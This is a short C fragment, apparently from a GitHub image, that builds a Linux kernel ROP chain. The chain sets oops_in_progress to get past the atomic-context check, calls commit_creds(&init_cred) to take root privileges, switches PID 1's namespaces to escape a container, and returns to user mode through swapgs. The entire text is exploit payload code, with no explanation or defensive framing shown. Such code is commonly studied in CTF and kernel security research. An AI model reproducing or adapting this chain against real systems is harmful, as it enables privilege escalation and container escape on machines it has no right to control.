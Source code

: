 ```c

    // Bypass "schedule while atomic": set oops_in_progress = 1
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + OOPS_IN_PROGRESS;
    data[i++] = kbase + MOV_RSI_RDI_RET;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    data[i++] = kbase + POP_RSI_RET;
    data[i++] = 0;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    data[i++] = kbase + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```